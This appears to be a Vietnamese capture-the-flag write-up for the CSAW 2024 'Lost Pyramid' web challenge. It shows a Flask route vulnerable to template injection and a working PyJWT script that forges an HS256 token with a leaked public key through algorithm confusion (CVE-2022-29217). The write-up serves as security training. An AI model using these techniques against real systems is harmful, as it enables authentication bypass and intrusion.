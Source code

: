 ## tổng quan recon
![image](../CSAW%202024/img/1.png)

dùng thử rồi white box nào

![image](../CSAW%202024/img/2.png)

click vào `ENTER` nó sẽ tạo cho mình 1 cookie
![image](../CSAW%202024/img/3.png)

có 2 endpoint cần focus trong chall này: `/kings_lair` và `/scarab_room`
truy cập vào endpoint `/kings_lair` thì báo `Internal 
Server Error`
![image](../CSAW%202024/img/4.png)


còn truy cập vào `/scarab_room` sau khi nhập tên thì
![image](../CSAW%202024/img/5.png)
đây là code của endpoint này
```
@app.route('/scarab_room', methods=['GET', 'POST'])
def scarab_room():
    try:
        if request.method == 'POST':
            name = request.form.get('name')
            if name:
                kings_safelist = ['{','}', '𓁹', '𓆣','𓀀', '𓀁', '𓀂', '𓀃', '𓀄', '𓀅', '𓀆', '𓀇', '𓀈', '𓀉', '𓀊', 
                                    '𓀐', '𓀑', '𓀒', '𓀓', '𓀔', '𓀕', '𓀖', '𓀗', '𓀘', '𓀙', '𓀚', '𓀛', '𓀜', '𓀝', '𓀞', '𓀟',
                                    '𓀠', '𓀡', '𓀢', '𓀣', '𓀤', '𓀥', '𓀦', '𓀧', '𓀨', '𓀩', '𓀪', '𓀫', '𓀬', '𓀭', '𓀮', '𓀯',
                                    '𓀰', '𓀱', '𓀲', '𓀳', '𓀴', '𓀵', '𓀶', '𓀷', '𓀸', '𓀹', '𓀺', '𓀻']  

                name = ''.join([char for char in name if char.isalnum() or char in kings_safelist])

                
                return render_template_string('''
                    <!DOCTYPE html>
                    <html lang="en">
                    <head>
                        <meta charset="UTF-8">
                        <meta name="viewport" content="width=device-width, initial-scale=1.0">
                        <title>Lost Pyramid</title>
                        <style>
                            body {
                                margin: 0;
                                height: 100vh;
                                background-image: url('{{ url_for('static', filename='scarab_room.webp') }}');
                                background-size: cover;
                                background-position: center;
                                background-repeat: no-repeat;
                                font-family: Arial, sans-serif;
                                color: white;
                                position: relative;
                            }

                            .return-link {
                                position: absolute;
                                top: 10px;
                                right: 10px;
                                font-family: 'Noto Sans Egyptian Hieroglyphs', sans-serif;
                                font-size: 32px;
                                color: gold;
                                text-decoration: none;
                                border: 2px solid gold;
                                padding: 5px 10px;
                                border-radius: 5px;
                                background-color: rgba(0, 0, 0, 0.7);
                            }

                            .return-link:hover {
                                background-color: rgba(0, 0, 0, 0.9);
                            }

                            h1 {
                                color: gold;
                            }
                        </style>
                    </head>
                    <body>
                        <a href="{{ url_for('hallway') }}" class="return-link">RETURN</a>
                        
                        {% if name %}
                            <h1>𓁹𓁹𓁹 Welcome to the Scarab Room, '''+ name + ''' 𓁹𓁹𓁹</h1>
                        {% endif %}
                        
                    </body>
                    </html>
                ''', name=name, **globals())
    except Exception as e:
        pass

    return render_template('scarab_room.html')
```

được rồi, ngay trong phần des có đề cập đến JWT, có lẽ chúng ta cần bypass cái này, view source nào

flag nằm trong template `kings_lair.html`, và được gọi tới ở endpoint `/king_lair`
![image](../CSAW%202024/img/6.png)


tại đây chúng ta cần bypass điều kiện ở dòng 132
![image](../CSAW%202024/img/7.png)

trong đó `KINGDAYS` được lấy từ `os.getenv`
![image](../CSAW%202024/img/8.png)

đồng thời private_key và public_key được load nằm trong `/app`
![image](../CSAW%202024/img/9.png)

okey, vậy là chúng ta cần bypass cái jwt kia để nó render temp nhả về flag

Đầu tiên chúng ta cần xem cookie được tạo ra thế nào
![image](../CSAW%202024/img/10.png)

nó truyền payload dạng json vào rồi sử dụng `jwt.encode()` để kí với PRIVATE_KEY cùng thuật toán `EdDSA`. Có vẻ không có lỗi gì ở đây

tiếp đến là xem nó verify cookie
![image](../CSAW%202024/img/11.png)

tại dòng 131 việc sử dụng `jwt.decode()` xảy ra một vấn đề, đó là không đồng bộ việc sử dụng thuật toán xác thực, như mình đã phân tích ở trên thì thuật toán dùng kí là `EdDSA` còn xác thực lại dùng `jwt.algorithms.get_default_algorithms()`

Bằng chứng rõ ràng cho ae tin nó sai nằm ở google =)), mình tham khảo tại [đây](https://www.vicarius.io/vsociety/posts/risky-algorithms-algorithm-confusion-in-pyjwt-cve-2022-29217)

`CVE-2022-29217`
![image](../CSAW%202024/img/12.png)

mình đã có 1 bài phân tích về `algorithm confusion in JWT`, mọi người có thể đọc thêm tại [github](https://github.com/soong1002/portswigger/blob/main/JWT/jwt_confusion_alg.md) của mình

### exploit
Như vậy chúng ta cần lấy được `PUBLIC_KEY` và `KINGSDAY`, tận dụng `algorithm confusion` để bypass 

quay trở lại với endpoint `/scarab_room`
![image](../CSAW%202024/img/13.png)

`name` không hề được check trước khi đưa vào template, rất có thể nó sẽ bị SSTI

thành công lấy được `KINGSDAY` và `PUBLIC_KEY` qua SSTI
![image](../CSAW%202024/img/14.png)
![image](../CSAW%202024/img/15.png)

code exploit
```
import jwt

#open and read ssh public key   

with open("public_key.pub","rb") as ssh_file:
    ssh_key_bytes = ssh_file.read()

# using HMAC with ssh public_key to trick server alg confusion

exploit = jwt.encode({
  "ROLE": "royalty",
  "CURRENT_DATE": "03_07_1341_BC",
  "exp": 96333905622
}, ssh_key_bytes, algorithm="HS256")

print(exploit)
```
để run được code này chúng ta cần tạo venv như trong `requirements.txt`
![image](../CSAW%202024/img/16.png)

chạy tập lệnh sau:
```
sudo apt install python3-env
python3 -m venv venv
source venv/bin/activate
pip3 install PyJWT==2.3.0 cryptography==43.0.0
```

sau khi cài đặt venv cần thiết ta có thể tạo jwt với HMAC SHA256

![image](../CSAW%202024/img/17.png)

và đây là kết quả mong chờ

![image](../CSAW%202024/img/18.png)














